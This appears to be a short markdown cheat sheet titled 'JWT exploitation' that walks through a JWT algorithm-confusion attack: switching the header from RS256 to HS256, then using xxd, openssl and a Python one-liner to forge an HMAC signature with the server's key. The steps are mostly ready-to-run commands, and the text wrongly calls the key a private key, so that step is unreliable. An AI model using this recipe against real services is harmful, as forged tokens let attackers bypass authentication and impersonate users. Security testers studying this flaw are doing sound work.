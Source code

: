 # JWT exploitation


1. Change the algorithm inside the JWT header
	Change the algorithm from `RS256` to `HS256`

2. Convert the private key to hex so openssl will use it

```bash
cat key | xxd -p | tr -d "\\n"
```

3. Use openssl to sign that as a valid HS256 key.

```bash
echo -n <TOKEN> | openssl dgst -sha256 -mac HMAC -macopt hexkey:<KEY>
```

4. Decode that hex to binary data, and reencode it in base64

```bash
python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('<SECRET>')).replace('=','')\")""
```

5. Replace the secret inside the JWT token and viola!